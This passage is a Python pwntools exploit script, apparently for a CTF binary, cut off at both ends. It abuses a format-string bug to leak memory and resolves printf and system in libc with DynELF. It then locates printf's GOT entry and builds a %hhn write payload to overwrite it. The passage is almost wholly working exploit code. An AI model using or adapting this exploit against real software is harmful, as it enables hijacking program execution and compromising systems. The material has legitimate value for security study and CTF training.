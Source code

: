 ```python
            return i

leak_point = find_leak_point()
log.success('FOUND leak point %d' % leak_point)

def leak(addr):
    addr &= (2**64 - 1)
    r = exec_payload('%' + str(leak_point) + '$s' + 'XXXXXXXX' + p64(addr))
    if r == '':
        return ''
    r = r[:r.index('XXXXXXXX')]
    if r == '(null)':
        return '\x00'
    else:
        return r + '\x00'

d = DynELF(leak, start_address_elf)
dynamic_addr = d.dynamic
printf_addr = d.lookup('printf', 'libc')
system_addr = d.lookup('system', 'libc')

def find_plt_got():
    addr = dynamic_addr
    while True:
        x = d.leak.n(addr, 2)
        if x == '\x03\x00': # type PLTGOT
            addr += 8
            return u64(d.leak.n(addr, 8))
        addr += 0x10

got_addr = find_plt_got()
log.success('FOUND GOT Address: %s' % hex(got_addr))

def find_printf():
    addr = got_addr
    while True:
        x = d.leak.n(addr, 8)
        if x == p64(printf_addr):
            return addr
        addr += 8

printf_got = find_printf()
log.success('FOUND printf@GOT : %s' % hex(printf_got))

def forge_exploit(addr, val):
    ret = ''
    curout = 4
    dist_to_addr = 12 + 8*20
    reader = (dist_to_addr / 8) + 7
    for i in range(8):
        diff = (val & 0xff) - curout
        curout = (val & 0xff)
        val /= 0x100
        if diff < 20:
            diff += 0x100
        ret += '%0' + str(diff) + 'u'
        ret += '%' + str(reader) + '$hhn'
        reader += 1
    ret += 'A'*(dist_to_addr - len(ret))
    for i in range(8):
        ret += p64(addr + i)
    return ret

```